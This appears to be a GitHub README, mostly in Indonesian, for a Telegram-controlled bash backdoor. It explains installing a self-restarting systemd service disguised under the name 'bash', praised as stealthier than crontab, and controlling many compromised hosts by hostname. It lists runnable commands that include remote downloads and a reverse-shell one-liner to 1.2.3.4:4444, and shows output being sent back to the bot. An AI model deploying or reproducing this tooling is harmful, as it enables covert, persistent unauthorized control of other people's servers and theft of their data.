 # bash webhook backdoor


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `node` value
```
bash install.sh

✅ Service akan restart otomatis jika crash atau mati.
✅ Bisa dicek dengan systemctl status bash.


script ini berjalan untuk multi target itu kenapa di /nc_telegram.sh
ada bagian TARGET_ID=$(hostname)  # Gunakan hostname sebagai ID unik

tujuan nya untuk ketika menjalankkan di telegram comand nya seperti ini 
contoh 
server1 whoami
server2 whoami
server3 whoami

🔥 Keunggulan Metode Ini
✅ Tidak semua target merespon bersamaan, hanya target yang dipilih
✅ Bisa mengontrol banyak target dari satu bot Telegram
✅ Bisa melihat semua target yang aktif

apasaja yg bisa di jalankan di bot telegram 

perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


contoh Hasilnya akan dikirim balik ke Telegram:
📡 Target: server1
💻 Command: ls -la
📤 Output:
total 12
drwxr-xr-x  2 root root 4096 Feb 19 12:00 .
drwxr-xr-x 10 root root 4096 Feb 19 10:00 ..
-rw-r--r--  1 root root  123 Feb 19 12:00 example.txt


🔥 Kesimpulan
✅ Systemd lebih stealth/senyap dibanding crontab
✅ Bisa berjalan otomatis tanpa perlu cron
✅ Nama service bisa disamarkan jadi bash
✅ Restart otomatis jika mati

```
